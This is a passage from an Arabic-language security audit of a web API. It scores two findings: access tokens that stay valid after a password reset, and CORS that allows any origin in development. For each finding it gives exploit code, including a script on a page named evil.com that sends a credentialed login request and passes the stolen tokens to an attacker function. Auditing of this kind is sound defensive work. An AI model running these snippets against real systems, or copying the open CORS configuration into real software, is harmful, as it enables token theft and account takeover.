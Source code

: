 **إزاي الهاكر يستغلها:**
```javascript
// السيناريو:
// 1. الهاكر سرق access token (XSS مثلاً)
// 2. الضحية عمل password reset
// 3. الـ token القديم لسه شغال 15 دقيقة!

const stolenToken = 'eyJhbGci...'; // مسروق قبل reset

// لسه شغال!
fetch('/api/v1/users/profile', {
  headers: { 'Authorization': `Bearer ${stolenToken}` }
});
```

**الخطورة:**
- ✅ استخدام token بعد reset
- ✅ فترة سماح للهاكر
- ✅ دخول غير مصرح

**التقييم:** 6.0/10 - **متوسط**

---

### 🔟 **CORS مفتوح في Development** 🟡

**الملف:** `src/app.js`

**الثغرة:**
```javascript
const corsOptions = {
  origin: process.env.NODE_ENV === 'production'
    ? process.env.ALLOWED_ORIGINS?.split(',')
    : true,  // ❌ أي origin في development!
  credentials: true
};
```

**إزاي الهاكر يستغلها:**
```html
<!-- موقع خبيث: evil.com -->
<script>
// لو السيرفر في development mode
fetch('http://localhost:5000/api/v1/auth/login', {
  method: 'POST',
  credentials: 'include', // يرسل cookies!
  body: JSON.stringify({
    email: 'victim@example.com',
    password: 'password123'
  })
})
.then(res => res.json())
.then(data => {
  // سرقة الـ tokens
  sendToAttacker(data);
});
</script>
```
